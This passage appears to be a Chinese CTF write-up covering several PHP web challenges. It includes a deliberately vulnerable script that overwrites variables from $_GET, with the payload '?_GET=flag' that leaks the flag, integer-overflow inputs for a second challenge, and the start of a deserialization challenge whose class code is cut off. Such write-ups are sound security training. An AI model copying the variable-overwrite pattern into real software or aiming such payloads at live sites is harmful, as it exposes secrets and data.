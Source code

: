 ```python
<?php
include "flag.php";
highlight_file(__FILE__);

$zeros="000000000000000000000000000000";

foreach($_GET as $key => $value){
    $$key=$$value;
}

if ($flag=="000000000000000000000000000000"){
    echo "好多零";
}else{
    echo "没有零，仔细看看输入有什么问题吧";
    var_dump($_GET);
}
```

考察变量覆盖，

![image-20240929160701603](https://gitee.com/bx33661/image/raw/master/path/image-20240929160701603.png)

Payload:

```
?_GET=flag
```



### 茶歇区

![image-20240929203735302](https://gitee.com/bx33661/image/raw/master/path/image-20240929203735302.png)

常规计算是不行的

我其实比较疑惑，查了资料之后发现

> int32 : -2147483648 to 2147483647
> int64 : -9223372036854775808 to 9223372036854775807

```
9223372036854775807
999999999999999999
999999999999999999
```

多次整数溢出绕过，这里`999999999999999999` 需要输入两次，才能获得flag



### 小舔田

```php
<?php
include "flag.php";
highlight_file(__FILE__);

class Moon{
    public $name="月亮";
    public function __toString(){
        return $this->name;
    }
    
    public function __wakeup(){
        echo "我是".$this->name."快来赏我";
    }
}

```